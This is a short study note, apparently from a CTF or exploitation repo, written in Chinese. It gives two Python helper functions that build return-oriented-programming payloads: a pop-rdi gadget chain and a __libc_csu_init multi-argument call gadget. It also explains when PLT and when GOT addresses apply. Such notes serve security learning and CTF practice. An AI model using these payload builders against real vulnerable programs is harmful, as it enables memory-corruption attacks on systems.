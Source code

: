 ##Tips:
```
*1
def gadget_arg1(func_addr, arg):
    payload = overwrite
    payload += p64(poprdiret_addr)
    payload += p64(arg)
    payload += p64(func_addr)
    payload += p64(vulnfunc_addr)
    return payload
*2
def gadget_call(func_addr, arg1=0, arg2=0, arg3=0, init_ret1=movcall_addr, init_ret2=vulnfunc_addr):
    payload = overwrite
    payload += p64(pop5ret_addr)
    payload += p64(0)   # rbx
    payload += p64(1)   # rbp
    payload += p64(func_addr)
    payload += p64(arg3) + p64(arg2) + p64(arg1)
    payload += p64(init_ret1)    # call 
    payload += '\x00'*(7*0x8)       # pop7
    payload += p64(init_ret2)   # 最后返回到有漏洞的地方下次再次利用
    return payload
```

##注意。
###1.最后是ret左右func_addr应该是plt段的函数地址，<br>
例如.plt [puts] = 0x400500 <br>
调用的时候是rip先到0x400500(这里的指令对应jmp 0x7???????)然后跳到该函数真正地址<br>
但是如果ret 0x601018(这是got表 里面存的是真正的函数地址的值) 就会执行0x601018这个地址对应的值(转换成code)<br>

###2. call func_addr
必须是got的地址<br>
.got[read] = 0x601028<br>
调用的时候是call 0x601028(call的是真正的函数的地址 比如call 0x7ff????????)<br>
但是如果用ret 就会ret到0x601028 rip指向0x601028 明显不是真正func_addr的地址<br>

###总结
ret 后面必须是 .plt<br>
__libc_init 里用call来必须是 .got的<br>


